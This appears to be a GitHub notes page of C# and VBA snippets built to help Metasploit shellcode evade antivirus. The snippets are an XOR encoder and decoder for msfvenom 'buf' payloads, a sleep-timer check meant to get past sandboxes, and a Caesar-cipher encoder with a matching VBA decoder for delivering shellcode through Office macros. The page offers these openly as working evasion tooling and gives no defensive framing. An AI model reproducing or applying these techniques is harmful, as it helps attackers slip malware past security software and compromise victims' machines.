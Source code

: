 ## C# Function to encode 'buf' payload from msfvenom to bypass AV


### Usage: XORencode(buf, 0x5f);  

``` Csharp

#
        public static void XORencode(byte[] _data, byte _key)
        {
            byte[] bufencoded = new byte[_data.Length];
            byte key = _key;



            for (int i = 0; i < _data.Length; i++)
            {
                bufencoded[i] = (_data[i] ^= key);
            }

            StringBuilder hex = new StringBuilder(bufencoded.Length * 2);
            foreach (byte b in bufencoded)
            {
                hex.AppendFormat("0x{0:x2}, ", b);
            }

            Console.WriteLine("Encoded: byte[] buf = new byte[{0}] {{ {1} }}", bufencoded.Length, hex.ToString().TrimEnd(','));
        }
        public static byte[] XORdecode(byte[] data, byte key)
        {
            for (int i = 0; i < data.Length; i++)
            {
                data[i] ^= key; // XOR again to get original
            }

            StringBuilder hex = new StringBuilder(data.Length * 2);
            foreach (byte b in data)
            {
                hex.AppendFormat("0x{0:x2}, ", b);
            }

            Console.WriteLine("decoded: byte[] buf = new byte[{0}] {{ {1} }}", data.Length, hex.ToString().TrimEnd(','));


            return data;
        }


```



## This is a sleep timer.  Used to delay loading and bypass AV

*** Sleep here is from the win32 API's ***

``` Csharp

    DateTime t1 = DateTime.Now;
    Sleep(2000);
    double t2 = DateTime.Now.Subtract(t1).TotalSeconds;
    if(t2 < 1.5)
    {
        return;
    }

```

<br><br>

## Ceasar cipher in C# of shellcode byte array to be used in VBA macros

*** Usage: Take array of bytes from this and 

``` CSharp

  byte[] encoded = new byte[buf.Length];
  for(int i = 0; i < buf.Length; i++)
  {
    encoded[i] = (byte)(((uint)buf[i] + 2) & 0xFF);
  }

  uint counter = 0;

  StringBuilder hex = new StringBuilder(encoded.Length * 2);
 foreach(byte b in encoded)
 {
   hex.AppendFormat("{0:D}, ", b);
   counter++;
   if(counter % 50 == 0)
   {
       hex.AppendFormat("_{0}", Environment.NewLine);
   }
 }
 Console.WriteLine("The payload is: " + hex.ToString());

```

*** VBA method to unceaser cipher above encrypted payload 

``` VBA

For i = 0 To UBound(buf)
    buf(i) = buf(i) - 2
Next i

```
